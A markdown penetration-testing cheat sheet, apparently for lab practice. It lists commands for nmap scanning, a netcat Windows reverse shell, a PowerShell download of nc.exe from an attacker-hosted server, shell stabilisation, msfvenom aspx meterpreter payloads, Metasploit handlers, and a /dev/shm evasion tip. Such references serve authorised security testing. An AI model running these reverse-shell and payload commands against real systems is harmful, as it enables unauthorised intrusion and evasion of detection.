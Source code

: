 # Cheatsheet

## Evaluation
```bash
# Shows version information
nmap -sC -sV -oA <name> <ip>
```

## Reverse shell

Listen locally with nc
```bash
# n is important!
nc -lvnp 4444
```

Remote (Windows):
```
nc.exe -e cmd.exe <local ip> 4444
```

Python web server and download with PS

```
python3 -m http.server 80
powershell Invoke-Webrequest -OutFile C:\temp\nc.exe -Uri http://10.10.14.116/nc.exe"
```

## Interactive terminal

Using Python for a psuedo terminal

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'

# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

## Sharing files
```
python3 -m http.server 8000
```

# Exploits
```bash
# local exploit-db
searchsploit "service name"
# show code of exploit
searchsplot -x <path number>
```

# Tools
https://github.com/infodox/python-pty-shells

## tmux
```bash
# new session
tmux new -s <name>
# list
tmux ls
# attach
tmux attach -t <name>

## tmux options
run-shell /opt/tmux-logging/logging.tmux
```
prefix key: ctrl+b
|Purpose|Prefix|
|-|-|
|c|new tab|
|[0-9]|go to tab n|
|d|detach|
|%|vertical split|
|"|horizontal split|
|arrow keys|move to pane|
|z|toggle zoom into pane|
|x|kill pane|
|$|rename session|
|,|rename tab|
|space|cycle looks|
|t|show time|
|:set -g mouse on|enable mouse|

## msfvenom
Payload generator
example aspx generator for reverse shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f aspx > shell.aspx
```

## msfconsole
```bash
# Generic reverse shell for use with the payload.
use exploit/multi/handler

# Suggest working exploits for detected version
use post/multi/recon/local_exploit_suggester
```

# Detection evasion
## Linux
`/dev/shm` is a ramdisk -> not saved for ever

# Note keeping
Cherry Tree - Hierarchical tool with code highlight and screen capture
ctrl+shift+prtscr for screenshot selection

# Resources
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet